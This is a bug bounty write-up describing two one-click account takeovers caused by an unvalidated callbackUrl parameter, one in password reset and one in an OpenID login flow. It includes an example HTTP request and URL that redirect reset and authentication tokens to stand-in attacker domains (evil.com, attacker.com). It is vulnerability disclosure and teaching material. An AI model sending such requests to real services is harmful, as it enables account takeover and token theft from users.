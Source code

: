 Hey guys, Today, I'm excited to share an intriguing story about how a **single parameter** in an application led to two account takeover cases and earned me a **four-digit bounty**. The program is a private one on HackerOne, and I was among the first few hackers to get invited. I'll explain two bugs I found here. Both account takeover (**ATO**) cases are one-click exploits, meaning the victim only needed to perform a single interaction.

![Excited GIF](/images/excited.gif)

## Weakness in the Password Reset Functionality

I was testing the password reset functionality of this application and discovered an interesting parameter called `CallbackUrl` from the password reset request.

\`\`\`http
POST /auth/resetpassword HTTP/2
Host: api.example.com
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
Origin: https://app.example.com
Referer: https://app.example.com

{"Email":"victim@example.com","CallbackUrl":"https://evil.com/auth/reset-password"}
\`\`\`

When a user requests a password reset link, the server sends a request to the specified email with a password reset link that contains a token. However, I discovered that if an attacker changes the request parameter `CallbackUrl` to a domain that they control, the password reset link will be sent like `attacker.domain.com/auth/reset-password?token=token` to the user's email. **This means that the attacker can obtain the password reset token when the user clicks the link and use it to take over the user's account.**

![Password Reset Flow](/images/password-reset-flow.png)

**I reported the issues, and they marked the report as high severity and rewarded me with a $$$$ digit bounty.**

![Happy GIF](/images/happy.gif)

This discovery sparked my curiosity to dig deeper into the platform. I searched the application JavaScript for corresponding parameters and found that the same parameter is used in the **application's OAuth flow**.

## Account Takeover via Misconfigured OpenID

During my testing on the **OAuth** mechanism of the application, I got another security flaw that could potentially lead to One click account takeover. This vulnerability stems from a misconfiguration in the **OpenID** implementation, specifically in the `callbackUrl` parameter used in the authentication flow with various identity providers.

I discovered that an attacker could exploit this misconfiguration by manipulating the `callbackUrl` parameter by redirecting it to an attacker-controlled domain, malicious actors could intercept the authentication process and potentially gain unauthorized access to user accounts.

**For example:**

- Google: `https://api.example.net/openid/google?callbackUrl=https://attacker.com/auth/register`

Initiating the authentication process with the respective provider results in the authentication response being redirected to the **attacker's domain**.

Exploiting this vulnerability allows attackers to intercept authentication responses, potentially obtaining access tokens. The authentication response is redirected to the **attacker-controlled domain** specified in the modified `callbackUrl` parameter.

After reporting the issue, the team responded by explaining that they considered the reported vulnerability as part of the **previous** `callbackUrl` **fix**. They emphasized that their policy only allows for one bounty payment per bug and considered **duplicates** unacceptable. Despite their explanation, I reiterated my findings, emphasizing that the vulnerability persisted specifically in the `callbackUrl` of the Auth0 endpoint. I acknowledged their efforts in resolving the previous bug but urged them to consider this as a separate issue due to its potential risk of account takeover.

![HackerOne Discussion](/images/hackerone-discussion.png)

Following internal discussions, the team ultimately recognized the severity of the vulnerability and awarded me another **$$$$ digit bounty along with an exclusive swag pack** as a token of appreciation for bringing it to their attention.

![Success GIF](/images/success.gif)

**Thanks for taking the time to read through the write-up, and stay tuned for more insights and discoveries in the future**
